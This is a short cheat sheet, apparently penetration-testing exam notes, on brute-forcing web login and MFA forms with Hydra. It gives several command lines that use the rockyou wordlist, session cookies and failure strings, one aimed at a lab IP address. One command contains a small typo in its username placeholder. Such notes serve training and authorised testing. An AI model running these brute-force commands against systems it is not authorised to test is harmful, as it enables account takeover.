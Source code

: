 https://www.hackingarticles.in/a-detailed-guide-on-hydra/
##### Bruteforce HTTP-Get
```
hydra -l USER -P /usr/share/wordlists/rockyou.txt IP -s PORT http-get /PATH
```

##### Bruteforce HTTP-Post-form
Post entire Burp Suite output for the variables
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "PATH:username=^USER&password=^PASS^:F=Invalid Password!"`
With cookie:
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt IP http-post-form "PATH:username=^USER^&password=^PASS^:H=Cookie\: PHPSESSID=vi1l68d78tdu4c84uajqdjula4:F=fail"`

```
hydra -l jason -P list.txt 10.10.204.240 http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=l6jjj91qbp4867sesgnso2ti78; user=jason_test_account; pwd=abkr:Incorrect" -I -V -u
```

```
hydra -l username -P list.txt IP_ADDR http-post-form "/PATH/VULN.PHP:PASSWORD_ARG=^PASS^:H=Cookie: COOKIE1=TESTl; COOKIE2=TEST2:INCORRECT_RET_VALUE" -I -V -u
```
Note: the "incorrect" must always be the last parameter

OSCP Note:
```
/usr/share/wordlists/dirb/others/names.txt  
```
is used as a userlist that might be used in the exam